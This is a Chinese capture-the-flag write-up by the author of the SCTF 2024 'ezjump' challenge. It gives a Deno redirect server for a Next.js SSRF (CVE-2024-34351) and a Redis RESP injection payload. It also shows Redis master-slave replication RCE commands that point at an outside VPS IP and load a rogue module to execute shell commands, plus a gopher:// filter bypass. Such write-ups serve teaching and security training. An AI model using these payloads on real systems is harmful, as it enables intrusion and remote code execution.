






# 2024SCTF ezjump wp&出题记录-先知社区

> **来源**: https://xz.aliyun.com/news/16535  
> **文章ID**: 16535

---

## ezjump

题目附件已更新至: <https://github.com/jmx0hxq/My-CTF-Challenges/blob/master/2024SCTF/sctf2024_ezjump.zip>

打开附件查看docker-compose文件发现有docker容器,一个fronted,一个backend,一个redis其中只有fronted容器暴露在公网,flag在redis机器的根目录

### fronted

我们的fronted写了两个路由,一个/play,一个/success,这里的/play路由就是3秒钟算一个数学题,一直得分到10000分以上才会跳转/success路由,但是我没想让师傅们玩这个无聊游戏就没引入认证模块,可以直接访问/success路由,观察package.json发现nextjs的版本是14.1.0,存在CVE-2024-34351漏洞,观察源码可以发现`Let us Play Again!!`就是调用了`redirect("/play")`,其中的redirect函数可以触发SSRF漏洞

写一个main.ts:

```
Deno.serve({ hostname: "0.0.0.0", port: 8000 }, (request: Request) => {
    console.log("Request received: " + JSON.stringify({
        url: request.url,
        method: request.method,
        headers: Array.from(request.headers.entries()),
    }));
    // Head - 'Content-Type', 'text/x-component';
    if (request.method === 'HEAD') {
        return new Response(null, {
            headers: {
                'Content-Type': 'text/x-component',
            },
        });
    }
    // Get - redirect to example.com
    if (request.method === 'GET') {
        return new Response(null, {
            status: 302,
            headers: {
                Location: 'http://172.11.0.3:5000/',
            },
        });
    }
});

```

远程vps:

```
deno run --allow-net --allow-read main.ts
```

burp抓跳转的包,然后修改Host和Origin地址为vps地址即可



### backend

这里后端写了个/login路由,可以创建新用户,并将用户信息保存到redis服务器的键值对里,我们的目标是创建一个role是admin的新用户,然后调用curl命令,但是这里的逻辑只会把新用户的role设置成`noBody`

我们观察Utils/redis.py文件可以发现SET设置键值对时调用waf()函数,将admin换成hacker,多出了一个字符,因此我们可以构造恶意resp请求来造成字符串逃逸,从而成功创建role为admin的新用户

payload如下:

```
/login?username=adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin%0D%0A$1%0D%0A1%0D%0A%0D%0A*3%0D%0A$3%0D%0ASET%0D%0A$15%0D%0Auser%3A5934020060%0D%0A$52%0D%0AeyJwYXNzd29yZCI6ICJleHBleHAiLCAicm9sZSI6ICJhZG1pbiJ9%0D%0A%0D%0A%0D%0A&password=123
```

此时观察redis键值对,发现成功写入





然后就可以调用curl命令了,这里我过滤了gopher://和file://协议,预期是用dict://解题

打主从复制RCE就是那一套操作

```
python3 redis_rogue_server.py -v -path exp.so -lport 21000
```

```
/login?username=5934020060&password=expexp&cmd=dict://127.0.0.1:6379/slaveof:47.108.254.70:21000
```

但是这里有一个地方需要注意,当主服务器与从服务器建立连接之后,从服务器会清除本地的redis存储,包括键值对,我们虽然成功的把exp.so传到了从服务器,但是键值对的清空导致无法再利用curl接口

这里需要了解一下`slave-read-only`配置  
Redis 主服务器（master server）具有读写的权限，而 从服务器（slave master）默认 只具有 读 的权限。  
当关闭这个配置时,我们在传输完exp.so之后,主服务器关闭服务,再访问一遍之前redis字符串逃逸的payload,就可以重新写入之前的键值对

```
http://172.11.0.3:5000/login?username=5934020060&password=expexp&cmd=dict://172.11.0.4:6379/info
```

将info依次改为下面的payload  
payload:

```
config:set:slave-read-only:no
config:set:dir:/tmp(这里镜像的/data目录有写的权限,可以不改)
config:set:dbfilename:exp.so
slaveof:47.108.254.70:21000
```



此时重新打入键值对:

```
/login?username=adminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadminadmin%0D%0A$1%0D%0A1%0D%0A%0D%0A*3%0D%0A$3%0D%0ASET%0D%0A$15%0D%0Auser%3A5934020060%0D%0A$52%0D%0AeyJwYXNzd29yZCI6ICJleHBleHAiLCAicm9sZSI6ICJhZG1pbiJ9%0D%0A%0D%0A%0D%0A&password=123
```



然后访问curl接口:

```
module:load:./exp.so
system.exec:"cat${IFS}/flag"
```



最终获取flag

### 非预期

这里我的预期是通过dict://协议修改redis的`slave-read-only`配置项,从而使从服务器可以重新写入键值对  
但是waf函数过滤的不严格,导致可以使用`Gopher://`绕过,也可以使用`gopher:/{/172.11.0.4:6379_}`绕过  
大佬们还是太强了!!!
